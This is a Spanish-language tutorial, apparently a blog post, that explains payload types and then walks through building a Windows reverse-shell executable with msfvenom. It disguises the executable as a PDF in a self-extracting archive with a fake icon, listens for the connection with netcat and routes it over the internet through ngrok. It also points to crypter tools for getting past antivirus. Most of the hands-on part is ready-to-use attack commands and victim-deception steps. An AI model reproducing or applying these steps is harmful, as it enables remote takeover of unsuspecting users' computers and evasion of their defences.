

# Qué es un PAYLOAD y cuáles son sus TIPOS
En el campo de la seguridad informática el payload (carga útil) son los datos o metadatos transmitidos como un mensaje para facilitar la entrega de éste. Un ejemplo de la vida real sería un avión o camión de carga, donde éste transporta grandes mercancías para su utilización. Ahora bien, cuando se envía un correo electrónico también se transmite datos como el mensaje, la cabecera, el cuerpo del mensaje y otros metadatos que quieres que reciba el destinario.
El término de "carga útil maliciosa" o "payload malicioso" aparece en escena cuando hablamos especificamente de ciberseguridad. Un exploit es una vulnerabilidad, y el payload es la carga que se ejecuta en esa vulnerabilidad para realizar ciertas acciones maliciosas en el sistema, como ejecutar comandos remotos, borrar ficheros o enviar datos, secuestrar una URL para redireccionar al usuario a un sitio web malicioso con malware adjuntado, entre otras. Los payloads maliciosos primero tienen que encontrar la entrada correcta para llegar al dispositivo, la forma más común de entregar la carga útil es a través de la ingeniería social como el phishing, email spoofing, entre otros ataques avanzados de suplantación de identidad. Entrando en juego, un ejemplo sería cuando recibes un correo electrónico de la empresa "Amazon" para rastrear tu pedido. Como estás esperando la entrega, haces clic en el enlace. El enlace te lleva a una página de seguimiento de pedidos de Amazon, pero automáticamente se descarga un archivo "confiable", en realidad, es el payload malicioso incrustado en un archivo legítimo. Está técnica se le conoce como secuestro de DNS acompañada de ingeniería social, en algunos casos la página legítima de la empresa es secuestrada por el atacate para inyectar código malicoso (Javascript u otro lenguaje) e incrustar payloads.
TIPOS de PAYLOADS
-
Payload BIND (Directo): Una shell directa es una especie de configuración donde las consolas remotas se establecen con otras computadoras a través de la red. En Bind shell, el atacante inicia un servicio en la computadora de destino, a la que puede concectarse. Para ello, el atacante debe tener la IP de la víctima para acceder al dispositivo y ejecutar comandos remotos. Bind TCP abre un puerto en el dispositivo de la víctima. Por lo general, una máquina está detrás de un firewall (o NAT) y los firewalls no permiten más puertos que algunos específicos (21, 22, 80, 443, etc). Un puerto abierto significa que podría estar disponible para que cualquiera pueda interactuar con ese puerto en el host de la víctima.
-
Payload REVERSE (Inverso): Mientra tanto, en una shell inversa el atacante usa la ejecucción de código inicial para que la máquina de la víctima se comunique con la máquina del atacante para obtener acceso. En este escenario, el atacante configura un puerto escucha, el puerto 1234 por ejemplo, y espera que la máquina de la víctima se comunique e instale la carga útil. Su principal ventaja es que la máquina víctima es quién se conecta a la máquina atacante, sin necesidad de abrir un puerto en la máquina víctima, evitando así que usuarios no deseados accedan a él. Además, los firewalls basados en hosts y/o red son más restrictivos en filtrados de salida.
En conclusión, las cargas útiles inversas son más eficientes dado que es más probable que eludan cortafuegos.

# ➤ Incrustar payload .EXE
En el siguiente ejemplo utilizaré la herramienta Msfvenom del framework Metasploit para generar el payload. Abriré una terminal de la máquina atacante (Kali) y ejecutaré el siguiente comando para generar un payload de tipo reverse shell.
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o documento.exe
-
-p: Tipo de payload (para Windows de 64bits de tipo reverse).
-
LHOST: IP de la máquina atacante.
-
LPORT: Puerto escucha.
-
-f: Formato del archivo (.exe).
-
-o: Nombre del archivo (salida).
El siguiente paso será copiar el payload generado al escritorio de Windows. Después, hay que descargar el icono de PDF (en PNG) y convertirlo a .ico con la siguiente página (https://www.icoconverter.com/):

Ahora, deberán crear un documento PDF (original) y combinarlo con el payload. Para ello, seleccionan los dos archivos (payload .EXE y documento .PDF) y le dan clic a "Añadir al archivo".

Marcan la casilla de "Crear un archivo autoextraíble" y en el método de compresión seleccionan "La mejor".

Luego, en el apartado de "Avanzado", dan clic en "Autoextraíble" -> "Instalación" y escriben el nombre de los dos archivos, es decir, del payload y el documento malicioso.

En la sección de "Actualizar" marcan las casillas de "Extrar y actualizar ficheros" y "Sobrescribir todos los ficheros".

Para añadir el icono hay que ir a "Texto e icono" y cargarlo en la última opción "Cargar icono desde fichero"; aquí seleccionan el logo convertido a .ico.

Por útilmo, escogen el nombre del archivo malicioso.

Desde la máquina atacante pondremos a escucha conexiones por el puerto 4444 con la herramienta de Netcat.
$ nc -nlvp 4444-
-n: Modo dirección IP númerica.
-
-l: Modo escucha.
-
-v: Modo verbose (detalles de conexiones).
-
-p: Puerto específico de escucha.
Y esperamos que la víctima ejecute el documento malicioso y le de a "Instalar".

Rápidamente conseguiremos acceso a la máquina víctima y podremos ejecutar comandos remotos.

# ➤ Fuera de la red LAN
El método anterior solo funciona si la víctima se encuentra conectado a la misma red local que el atacante. Para hacerlo funcionar fuera de la red LAN hay que crear un túnel dinámico para convertir nuestra conexión (o servicio) local a público, esto gracias al proxy inverso que ofrece Ngrok. Por ejemplo, si tenemos un servicio arrancando en http://localhost:8080, lo que hará negrok es generar una URL dinámica del tipo http://xxxxxx.ngrok.io visible en internet que apunta a nuestro localhost.
El primer paso será crear un túnel TCP por el puerto 9999:
$ ngrok tcp 9999
Ahora, crearemos nuevamente el payload pero está vez sustituimos el LHOST por la dirección de Ngrok y el puerto LPORT.
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=0.tcp.sa.ngrok.io LPORT=12296 -f exe -o documento.exe
Repiten los pasos utilizados para incrustar el payload en el documento, el puerto que usamos para abrir el túnel Ngrok fue 9999. Por lo tanto, pondremos a escucha el mismo con Netcat:
$ nc -nlvp 9999
Una carga útil de Msfvenom es altamente detectable por los antivirus, a día de hoy las base de datos de AV contienen las firmas de cientos de malware para su detección.

Generalmente los atacantes utilizan un crypter para evadir los antivirus. Un crypter es un software que altera los archivos con el objetivo de que éste puede saltarse las diversas protecciones que propone un antivirus. Repasando las técnicas de los AV, cuentan con dos formas para detectar las amenzanas:
-
Firmas: los antivirus detectan patrones hexadecimales de los archivos y los comparan con su base de datos. En caso de coincidir, la amenaza será bloqueada.
-
Heurística: los antivirus detectan comportamiento malintencionado de un archivo y lo catalogan como amenaza si éste es malicioso.
La mayoría de los Crypters son privados debido al esfuerzo que hay detrás para mantenerlo actualizado, y los que hay gratis, son inútiles o vienen con una sorpresa incluída. Sin embargo, hay proyectos en github como el caso de Condor, EXOCET o PyCrypt, creados con fines de ayudar a los probadores de penetración a eluir la protección como AV/EDR/XDR en el sistema operativo Windows.

La herramienta trae por defecto iconos predeterminados, de igual manera se puede descargar y convertir a extensión .ico si así lo desea.